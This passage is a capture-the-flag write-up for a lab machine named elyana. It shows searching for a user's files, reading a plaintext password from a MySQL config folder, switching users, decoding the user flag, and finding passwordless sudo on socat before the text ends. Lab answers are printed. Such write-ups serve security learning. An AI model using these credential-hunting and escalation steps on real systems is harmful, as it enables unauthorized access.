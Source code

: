 ## User Flag

I went to `/home/elyana` where the user flag was but I didn't have permission to read the file. There was also another file called `hint.txt` which contained the following:

~~~
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
~~~

I used find command to find the files owned by "elyana" and found the file containing the password:

~~~
bash-4.4$ find / -user elyana -type f 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
~~~

The password was in `/etc/mysql/conf.d/private.txt`:

~~~
bash-4.4$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
~~~

Next I switched to user `elyana` and read the user flag:

~~~
bash-4.4$ su elyana
E@syR18ght

bash-4.4$ id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)

bash-4.4$ cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
~~~

It is base64 encoded and after decoding it, you get the flag.

User Flag: `THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}`

## Root Flag

Now wwe need to gain root access. the first thing I try is `sudo -l` which shows the sudo permissions:

~~~
bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
~~~
